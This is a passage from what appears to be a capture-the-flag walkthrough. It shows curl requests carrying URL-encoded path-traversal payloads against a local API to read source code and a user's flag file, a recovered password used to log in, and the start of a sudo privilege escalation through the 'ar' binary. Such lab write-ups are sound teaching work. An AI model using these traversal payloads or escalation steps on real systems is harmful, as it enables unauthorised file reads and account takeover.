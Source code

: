 ```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2F.local%2Fbin%2Fbot%2Findex.js
```

We can successfully read the Node.js API code.

We attempt to read the user.txt flag file of the `securitybot` user.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2Fuser.txt
```

We obtain the user.txt flag along with a password, `0KjcFEkuUEXG` (this isn't very realistic).

![User flag and password](../../assets/images/securitron/image-30.png)

We log in as the `securitybot` user using the password `0KjcFEkuUEXG`.

![securitybot](../../assets/images/securitron/image-31.png)

## Privilege Escalation

We check if we have any sudo permissions since we now have the user's password.

![sudo](../../assets/images/securitron/image-32.png)

We have sudo permission to run the `ar` binary. According to GTFOBins, we can use this to obtain privileged file reads.
